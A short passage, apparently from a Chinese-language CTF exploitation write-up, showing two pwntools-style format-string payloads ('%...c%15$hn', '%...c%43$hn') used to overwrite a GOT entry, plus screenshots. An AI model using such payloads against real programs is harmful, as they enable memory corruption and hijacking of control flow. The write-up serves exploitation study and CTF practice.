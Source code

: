```plain
sla('start','%'+str(addr1)+'c%15$hn')
```

[![](assets/1701678450-09f70fe3bafd34904392bb44c64642f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211042-b3305558-8eb8-1.png)  
然后我们去找下面这个偏移，去修改成got表

[![](assets/1701678450-00be00720d4e4f1a26d02e8619eeec91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211050-b7a80a18-8eb8-1.png)

```plain
sla('start','%'+str(0x4020)+'c%43$hn')
```

[![](assets/1701678450-8d64e1fcbcd1f05d193fa3e97bd0e21f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211103-bfe41bd6-8eb8-1.png)

